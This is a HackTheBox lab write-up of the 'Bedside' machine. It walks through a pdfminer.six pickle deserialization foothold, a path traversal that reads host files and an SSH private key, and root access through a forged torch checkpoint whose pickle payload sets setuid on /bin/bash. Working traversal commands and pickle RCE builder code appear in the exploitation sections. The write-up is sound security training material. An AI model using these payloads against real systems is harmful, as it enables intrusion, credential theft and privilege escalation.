






# Bedside — HackTheBox Writeup

**Difficulty:** Medium · **OS:** Linux · **Target:** `bedside.htb`

> ⚠️ **Disclaimer:** This writeup documents the exploitation of *Bedside*, a machine on the HackTheBox platform — a legal, sandboxed environment built for security training. Every step below was carried out against my own assigned instance. None of this should be attempted against systems you do not own or have explicit written permission to test.

## Summary

Bedside presents itself as a heart clinic "embracing AI," but the AI branding is mostly window dressing over two much older problems: a document parser that trusts what it's told to load, and a model checkpoint loader that does the same thing. The path to the box runs through an undocumented research portal, a very recent deserialization bug in `pdfminer.six`, a container escape via a host-side path traversal, and a privilege escalation that abuses `torch.load()` inside a MONAI training script. Two unrelated services, one identical root cause: unsafe deserialization of attacker-supplied data.

---

## 1. Reconnaissance

I started with the usual `nmap` sweep against the target.

```
nmap -sV -sC -Pn 10.129.248.191
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0p2 Debian 7+deb13u4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.68
|_http-server-header: Apache/2.4.68 (Debian)
|_http-title: Bedside Clinic - bedside.htb
```

Only SSH and HTTP were exposed, and both were on fully patched, current versions — no low-hanging CVEs on the service banners themselves. On a Medium-rated box that almost always means the interesting bug lives in whatever the developers bolted on top, not in the software stack itself. I dropped `bedside.htb` into `/etc/hosts` and moved on to the web app.


*Confirming the host is reachable and enumerating the two open services.*

---

## 2. Web Enumeration

### 2.1 The public site

`http://bedside.htb` renders a polished marketing page for "Bedside Clinic" — hero banner, an "About Us" / "Treatments" / "AI Innovations" nav, and a contact block. Everything on it is static; there's no form, no API call, nothing that accepts input. It's a brochure, not an attack surface.


*The public-facing marketing site — polished, but entirely static.*


*The only actionable detail here is the `contact@bedside.htb` address, which at least confirms the mailbox/username convention the clinic uses.*

### 2.2 Looking for a second door

Since the front page was a dead end, I fuzzed for virtual hosts against the `Host` header:

```
ffuf -u http://bedside.htb -H "Host: FUZZ.bedside.htb" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc all
```

Every guess came back `301`, because Apache redirects any unmatched vhost back to the main site — which meant I needed to filter that noise out rather than match on it.


*A wall of 301s — every name is bouncing to the default site, so status code alone won't separate real vhosts from misses.*

```
ffuf -u http://bedside.htb -H "Host: FUZZ.bedside.htb" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc all -fc 301
```


*Filtering out the redirect noise leaves exactly one real hit: `research`.*

`research.bedside.htb` came back `200` where everything else fell away as `400`/`301`. I added it to `/etc/hosts` and went to look.

### 2.3 The Research Portal

`research.bedside.htb` is a completely different animal from the marketing page: a "Bedside Research Portal" that lets staff upload X-rays, CT scans, and research documents "to support AI model training." There's a real upload form here, accepting `jpeg, jpg, png, bmp, tiff, dcm, pdf` per the on-page notice — and two lines worth remembering: *"Collections can be uploaded as archives"* and *"Certain file formats may be converted to standardized formats before being used for AI training."* An upload endpoint that parses documents and silently converts formats is an upload endpoint doing a lot of work behind the scenes — exactly the kind of surface where parsing bugs live.


*An actual upload form, accepted formats listed, and a hint that archives are supported even though they're not in the visible whitelist.*

Before touching the form itself, I checked the raw response headers — something the browser hides from you by default:

```
curl -s -i http://research.bedside.htb/
```


*`X-Powered-By: pdfminer.six` — no framework sets this on its own, a developer added it deliberately. That single header pointed straight at the vulnerability class I'd end up exploiting.*

No web framework advertises a Python parsing library like that by default — someone added it. That told me exactly which library was chewing through uploaded files on the backend, and it was worth checking whether that library had any recent, unpatched CVEs.

---

## 3. Foothold

### 3.1 Probing the upload form

I started with a harmless, minimal PDF to see how a "legal" upload was handled:

```
echo "%PDF-1.4 test" > /tmp/bedside.pdf
curl -s -F "uploadFile=@/tmp/bedside.pdf" http://research.bedside.htb/
```


*A clean accept — the server keeps the original filename and gives no hint of the storage path yet.*

Next I sent a file with no legitimate reason to be there, to see how the *rejection* path behaved — error messages are often more informative than success ones:

```
curl -s -F "uploadFile=@/etc/hostname" http://research.bedside.htb/
```


*`Invalid file type. Allowed: jpeg, jpg, png, bmp, tiff, dcm, pdf, gz, zip` — two formats (`gz`, `zip`) that were never listed on the page itself. That's the "archive" support the notice hinted at, and it's undocumented for a reason.*

That single error line handed me two things I hadn't had before: confirmation that `.gz` archives were quietly accepted server-side, and (from a follow-up MIME-mismatch test with a fake `.gz`) the absolute storage path the server complained about — `/var/www/research.bedside.htb/uploads`. Every prerequisite for a known, very recent `pdfminer.six` vulnerability was now sitting in my hands: a library confirmed by the response header, a writable upload directory at a known absolute path, and a whitelist that accepted `.gz` files.

### 3.2 CVE-2025-64512 — pdfminer.six pickle deserialization

`pdfminer.six` resolves CMap/encoding data through Python's `pickle`, and a PDF's `/Encoding` entry can be pointed at an arbitrary `.pickle.gz` path on disk. When the library parses the PDF, it happily unpickles whatever sits at that path — and unpickling attacker-controlled bytes means arbitrary code execution in the parsing process.

My first attempt used a single polyglot file that was simultaneously a valid gzip/pickle and a self-referencing PDF. It uploaded cleanly but nothing ever triggered it — because *uploading* a file and *parsing* it are two different things, and nothing on the server touched it automatically.

I split the payload in two instead: a `sh.pickle.gz` containing the malicious pickle, and a separate, ordinary-looking `trigger.pdf` whose `/Encoding` pointed at that pickle's path. The theory was that some background process scans the upload directory for real `.pdf` files and feeds them through `pdfminer` — so the trigger needed a `.pdf` extension, while the payload just needed to sit at the referenced path.

I attempted to inspect my exploit script in a GUI editor first, which fought me the whole way (a headless VM missing `dconf` is not fond of `pluma`):


*`dconf` complaining about a missing display backend — a detour before falling back to `nano` and running the script directly.*

Running the two-stage exploit and waiting out a short delay for whatever background job was polling the upload directory:


*`sudo python3 bedside1.py <LHOST> 4444` uploads `sh.pickle.gz` and `trigger.pdf` in sequence, then a short wait for the cron-driven watcher to pick them up.*

Roughly 30 seconds later, a reverse shell landed as `datawrangler` on a host calling itself `data-wrangler` — clearly a container, not the target host itself.


*The delayed callback confirms a background poller (not the upload itself) triggers the deserialization.*

### 3.3 Confirming the trigger

Once inside, the responsible script was sitting right there in `/app`:

```python
UPLOAD_DIR = "/var/www/research.bedside.htb/uploads"
OUTPUT_DIR = "/datastore/staging"
SLEEP_INTERVAL = 30

def main():
    while True:
        pdf_files = glob.glob(os.path.join(UPLOAD_DIR, "*.pdf"))
        for pdf_path in pdf_files:
            process_pdf(pdf_path, str(uuid.uuid4()))
        time.sleep(SLEEP_INTERVAL)
```


*A cron-style loop, globbing for `*.pdf` every 30 seconds and shelling out to `pdf2txt.py` — the `pdfminer.six` CLI, and the exact code path that triggers CVE-2025-64512.*

This explained everything: the 30-second delay before my shell landed, why my single-file polyglot (named `.pickle.gz`, never `.pdf`) was silently ignored, and why the file-type checks I'd probed earlier (`is_suspicious_filename`, symlink/regular-file checks) wouldn't have stopped this — none of them account for a legitimate-looking PDF that simply *references* a malicious pickle elsewhere on disk.

---

## 4. Lateral Movement — Container to Host

### 4.1 Mapping the internal network

The shell was clearly inside a container — a bare environment with only `curl` and `python3`, no `nmap`, no `nc`. I read the Docker bridge gateway out of `/proc/net/route` (`172.17.0.1`) and swept a short port list against it with a raw Python socket loop, since nothing better was available:

```python
import socket
for p in [22,80,3000,5000,8000,8080,9000]:
    s=socket.socket(); s.settimeout(0.6)
    if s.connect_ex(("172.17.0.1",p))==0: print("OPEN",p)
    s.close()
```


*Port 3000 was invisible from outside — it only listens on the internal Docker bridge, which is exactly why the external `nmap` scan never saw it.*

Port 3000 turned out to be an "Image Viewer" React app for browsing MRI slices — but reading its source showed the slice-fetching function was pure client-side simulation (`Math.random()` masks, a comment reading *"Simulate fetching multi-slice MRI + mask data"*). There was no backend API to attack through it; I confirmed that with a direct request to a guessed endpoint, which returned a flat `404`.

### 4.2 Path traversal against the static file server

If the application layer was a dead end, the web server *underneath* it was still worth probing directly. Static file servers have their own classic weakness, so I pointed a traversal straight at the server root instead of guessing app routes — making sure to pass `--path-as-is`, since `curl` will otherwise normalize `../` sequences away before the request ever leaves the client:

```
curl -s --path-as-is 'http://172.17.0.1:3000/../../../../etc/passwd'
```

That returned a `/etc/passwd` with entries the container itself didn't have — `developer` (uid 1000, `/bin/bash`) among them — confirming this service was serving files off the **host** filesystem, not its own container.

With arbitrary file read against the host, the obvious next request was for that user's SSH key:

```
curl -s --path-as-is 'http://172.17.0.1:3000/../../../../home/developer/.ssh/id_rsa'
```


*An unencrypted `ed25519` private key for `developer@bedside`, pulled straight off the host through the internal service's static-file handler.*

I grabbed `user.txt` the same way, then used the leaked key to SSH directly onto the host — out of the container for good.

```
ssh -i bedside_key developer@10.129.248.191
```


*A stable shell on the actual host as `developer`, with `user.txt` sitting in the home directory.*

---

## 5. Privilege Escalation

### 5.1 The sudo entry

The first thing worth checking on any freshly landed host is `sudo -l`:

```
User developer may run the following commands on bedside:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/trainer/bedside_trainer.py
```

One command, no password prompt: a MONAI-based training script running as root. Reading through it turned up the same class of bug that had gotten me the foothold, wearing a different coat. The script looks for the most recent checkpoint under `/datastore/checkpoints/*.pt` and loads it with MONAI's `CheckpointLoader`, which — under the hood — calls `torch.load(..., weights_only=False)`. `torch.load` deserializes with `pickle`. Feed it a crafted `.pt`, and its `__reduce__` method executes as root the moment the trainer starts.

Two guards stood between me and that call, though:

1. **No data, no load.** The trainer only reaches the checkpoint loader if it has training data staged in `/datastore/processed/`; otherwise it promotes files from `/datastore/staging/` first and exits early if there's still nothing usable.
2. **No access as `developer`.** The `/datastore` tree is owned by a `dataops` group that `developer` isn't part of — but the container user `datawrangler` *is*. Since `/datastore` is a volume shared between the container and the host, that gave me two cooperating footholds: write from the container, trigger from the host.

### 5.2 Building a malicious checkpoint

`torch.load` doesn't accept a raw pickle — a `.pt` file is a ZIP archive containing `archive/data.pkl` and an `archive/version` marker. I wrote a small builder to produce a valid one, with a `__reduce__` payload riding inside a dict shaped like a real checkpoint:

```python
class RCE:
    def __init__(self, cmd): self.cmd = cmd
    def __reduce__(self): return (os.system, (self.cmd,))

payload = pickle.dumps({"model": RCE("chmod +s /bin/bash")}, protocol=2)
with zipfile.ZipFile(out, "w", zipfile.ZIP_STORED) as z:
    z.writestr("archive/data.pkl", payload)
    z.writestr("archive/version", "3\n")
```


*Working out the ZIP-based `.pt` structure and confirming file magic bytes before generating the payload.*


*`504b0304` — a legitimate PK/ZIP header, which is what `torch.load` expects to see before it ever gets to the pickle inside.*

### 5.3 Smuggling it through the shared datastore

Back in the container as `datawrangler`, I served the forged checkpoint over a small HTTP listener from Kali, pulled it in, and dropped it directly into `/datastore/checkpoints/`, overwriting the name the trainer would pick up next. I also had to seed `/datastore/processed/` with a trivially valid image so the trainer's data-gate wouldn't bail out before ever reaching the checkpoint loader.


*Copying the forged `checkpoint_epoch_99.pt` into place, confirming its bytes on disk, then seeding `/datastore/processed/` with a minimal valid image so the training pipeline has data to work with.*

### 5.4 Triggering as root

With everything staged, I switched back to the `developer` shell on the host and ran the one command sudo allowed without a password:

```
sudo /usr/bin/python3 /opt/trainer/bedside_trainer.py
```

The trainer picked up the forged checkpoint, and `CheckpointLoader` unpickled it as root. The training run itself errored out afterward with a `TypeError` (the payload dict doesn't match what the model actually expects to load) — but that didn't matter. The `os.system` call had already fired before the error surfaced, flipping the setuid bit on `/bin/bash`.

```
developer@bedside:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1298416 May  9 12:07 /bin/bash
developer@bedside:~$ /bin/bash -p
bash-5.2# whoami
root
bash-5.2# cat /root/root.txt
```


*The deserialization fires and sets `/bin/bash`'s setuid bit before the trainer crashes on the malformed state dict — `bash -p` picks up the elevated bit for a clean root shell.*

---

## 6. Root Cause & Takeaways

Bedside is really one lesson told twice. Both the document ingestion pipeline and the "self-learning" model loader made the same mistake: deserializing attacker-influenced data with `pickle` (directly through `pdfminer.six`'s CMap handling, and indirectly through `torch.load`) without ever asking whether the data could be trusted. The AI-clinic theming made that mistake feel almost inevitable — every place the box wanted to look forward-thinking (a research upload portal, a self-updating training pipeline) was exactly where the trust boundary quietly disappeared.

**Key takeaways:**

- `X-Powered-By` and similar debug headers are free reconnaissance — they told me the parsing library before I ever touched the upload form.
- Client-side rejection messages (MIME/type errors) frequently leak backend implementation details — in this case, an absolute storage path and an undocumented format whitelist.
- A vulnerability that doesn't fire on upload doesn't mean it's dead — background/cron-driven processing is common in file-pipeline architectures and just shifts *when* a payload detonates.
- `curl --path-as-is` is essential when testing path traversal; client-side normalization will silently defeat your own payload otherwise.
- `torch.load(weights_only=False)` and any bare `pickle.load()` on data that ultimately originates from a lower-privileged or shared location is a deserialization RCE waiting for the right file to land in the right directory.

---

*Writeup compiled from personal HTB lab notes and terminal captures. All target IPs shown are ephemeral HTB lab assignments.*
